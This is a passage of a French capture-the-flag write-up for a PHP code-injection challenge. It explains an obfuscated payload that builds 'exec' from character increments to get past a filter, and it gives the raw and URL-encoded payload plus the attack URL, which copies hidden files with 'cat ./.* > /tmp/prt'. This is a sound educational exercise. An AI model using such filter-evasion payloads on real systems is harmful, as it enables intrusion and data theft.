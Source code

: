 La seule différence par rapport au code d'avant sont les 3 dernières instructions.
On a donc la même chose sauf
- `$h` contient [`EXEC`](https://www.php.net/manual/fr/function.exec)
- `$v` contient `cat ./.* > /tmp/prt`

Et enfin
- `$h($v)` fait `EXEC("cat ./.* > /tmp/prt")`


Idem qu'au dessus, on va vérifier sa taille et l'encoder en caractères URL

```
php > echo strlen('$_=[];$_=@"$_";$_=$_["!"=="@"];$z=$_;++$_;++$_;++$_;$r=++$_;++$_;++$_;++$_;$t=++$_;++$_;++$_;++$_;++$_;++$_;$p=++$_;$j = $p."RD";$d = $j("b");++$_;++$_;++$_;++$_;++$_;$p =
 chr(--$d);$n=++$_;$h = "{$r}X{$r}C";$v = "c{$p}t ./.* > /tmp/prt";$h($v);');
245

php > echo urlencode('$_=[];$_=@"$_";$_=$_["!"=="@"];$z=$_;++$_;++$_;++$_;$r=++$_;++$_;++$_;++$_;$t=++$_;++$_;++$_;++$_;++$_;++$_;$p=++$_;$j = $p."RD";$d = $j("b");++$_;++$_;++$_;++$_;++$_;$p = chr(--$d);$n=++$_;$h = "{$r}X{$r}C";$v = "c{$p}t ./.* > /tmp/prt";$h($v);');
%24_%3D%5B%5D%3B%24_%3D%40%22%24_%22%3B%24_%3D%24_%5B%22%21%22%3D%3D%22%40%22%5D%3B%24z%3D%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24r%3D%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24t%3D%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24p%3D%2B%2B%24_%3B%24j+%3D+%24p.%22RD%22%3B%24d+%3D+%24j%28%22b%22%29%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24p+%3D+chr%28--%24d%29%3B%24n%3D%2B%2B%24_%3B%24h+%3D+%22%7B%24r%7DX%7B%24r%7DC%22%3B%24v+%3D+%22c%7B%24p%7Dt+.%2F.%2A+%3E+%2Ftmp%2Fprt%22%3B%24h%28%24v%29%3B
```

On appelle l'URL

```
http://challenges2.france-cybersecurity-challenge.fr:5008/?code=%24_%3D%5B%5D%3B%24_%3D%40%22%24_%22%3B%24_%3D%24_%5B%22%21%22%3D%3D%22%40%22%5D%3B%24z%3D%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24r%3D%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24t%3D%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24p%3D%2B%2B%24_%3B%24j+%3D+%24p.%22RD%22%3B%24d+%3D+%24j%28%22b%22%29%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24p+%3D+chr%28--%24d%29%3B%24n%3D%2B%2B%24_%3B%24h+%3D+%22%7B%24r%7DX%7B%24r%7DC%22%3B%24v+%3D+%22c%7B%24p%7Dt+.%2F.%2A+%3E+%2Ftmp%2Fprt%22%3B%24h%28%24v%29%3B
```

On l'execute et on obtien

![image4](assets/image4.png)

On sait qu'on a rien pété. On a pas la phrase "No way! Go away!" qui nous indique que notre code est valide et est passé au travers des restrictions.
